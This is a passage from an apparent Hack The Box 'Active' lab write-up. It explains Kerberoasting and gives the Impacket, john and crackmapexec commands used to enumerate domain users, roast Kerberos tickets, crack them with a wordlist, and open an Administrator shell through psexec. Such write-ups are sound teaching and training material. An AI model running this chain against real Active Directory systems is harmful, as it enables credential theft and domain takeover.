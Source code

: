 > **[Impacket’s GetUserSPNs.py](https://wadcoms.github.io/wadcoms/Impacket-GetUserSPNs/){:target="_blank"}** will attempt to fetch **Service Principal Names** that are associated with normal user accounts. What is returned is a ticket that is encrypted with the user account’s password, which can then be bruteforced offline.

> A **[Kerberoasting attack](https://www.vaadata.com/blog/what-is-kerberoasting-attack-and-security-tips-explained/#what-is-kerberoasting){:target="_blank"}** targets **Active Directory environments** using the Kerberos protocol for authentication. **Kerberoasting** enables an attacker with a valid account on the network to retrieve Kerberos tickets called **Service Tickets**. These tickets contain information encrypted using the password of the account linked to the service. The attacker’s objective is to retrieve these tickets and perform an offline cryptanalysis in an attempt to guess the password of the associated account.

> **[Impacket’s psexec.py](https://wadcoms.github.io/wadcoms/Impacket-PsExec/){:target="_blank"}** offers `psexec` like functionality. This will give you an interactive shell on the Windows host.

> **PsExec** is a legitimate tool that allows users to run programs on remote systems. It can be used for a variety of legitimate tasks such as **troubleshooting**, **deploying software updates and patches**, and **executing commands and scripts** on multiple systems simultaneously.

```bash
impacket-GetADUsers --help
# Queries target domain for users data
impacket-GetADUsers -all ACTIVE.HTB/SVC_TGS:G...8 -dc-ip 10.10.10.100

impacket-GetNPUsers --help
# Queries target domain for users with 'Do not require Kerberos preauthentication' set and export their TGTs for cracking

nvim Users.txt
cat !$
for user in $(cat Users.txt); do impacket-GetNPUsers ACTIVE.HTB/$user -no-pass -dc-ip 10.10.10.100; done

impacket-GetUserSPNs ACTIVE.HTB/SVC_TGS:G...8 -dc-ip 10.10.10.100 -request -output tgs.hash
# [-] Kerberos SessionError: KRB_AP_ERR_SKEW(Clock skew too great)

rdate -n 10.10.10.100
john -w=$(locate rockyou.txt)                             # [Tab]
john -w=/usr/share/wordlists/rockyou.txt tgs.hash
crackmapexec smb 10.10.10.100 -u 'Administrator' -p 'T...8'

impacket-psexec ACTIVE.HTB/Administrator:T...8@10.10.10.100 cmd.exe
```

<br />
<img src="{{ site.img_path }}/active_writeup/Active_50.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_51.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_52.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_53.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_54.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_55.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/active_writeup/Active_56.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
